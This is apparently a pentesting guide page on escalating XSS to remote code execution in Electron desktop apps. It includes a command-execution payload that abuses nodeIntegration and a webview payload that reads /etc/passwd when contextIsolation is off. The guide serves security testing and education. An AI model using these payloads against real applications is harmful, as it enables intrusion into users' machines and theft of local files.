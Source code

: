 # XSS to RCE Electron Desktop Apps

Recommended read for more trick: [https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)

When I test Electron app, first I always check the options of the [BrowserWindow API](https://www.electronjs.org/docs/api/browser-window), which is used to create a browser window. By checking it, I think about how RCE can be achieved when arbitrary JavaScript execution on the renderer is possible.\
Example:

```
const mainWindowOptions = {
  title: 'Discord',
  backgroundColor: getBackgroundColor(),
  width: DEFAULT_WIDTH,
  height: DEFAULT_HEIGHT,
  minWidth: MIN_WIDTH,
  minHeight: MIN_HEIGHT,
  transparent: false,
  frame: false,
  resizable: true,
  show: isVisible,
  webPreferences: {
    blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
    nodeIntegration: false,
    preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
    nativeWindowOpen: true,
    enableRemoteModule: false,
    spellcheck: true
  }
};
```

## nodeIntgration RCE

If the nodeIntegration is set to true, a web page's JavaScript can use Node.js features easily just by calling the `require()`. For example, the way to execute the calc application on Windows is:

```
<script>
  require('child_process').exec('calc');
</script>
```

## Read Arbitrary Internal FIle

If contextIsolation set to false you can try to use \<webview> (similar to \<iframe> butcan load local files) to read local files and exfiltrate them: using something like **\<webview src=”file:///etc/passwd”>\</webview>:**

![](../../.gitbook/assets/1-u1jdryuwaevwjmf\_f2ttjg.png)

**(Trick copied form** [**here**](https://medium.com/@renwa/facebook-messenger-desktop-app-arbitrary-file-read-db2374550f6d)**).**
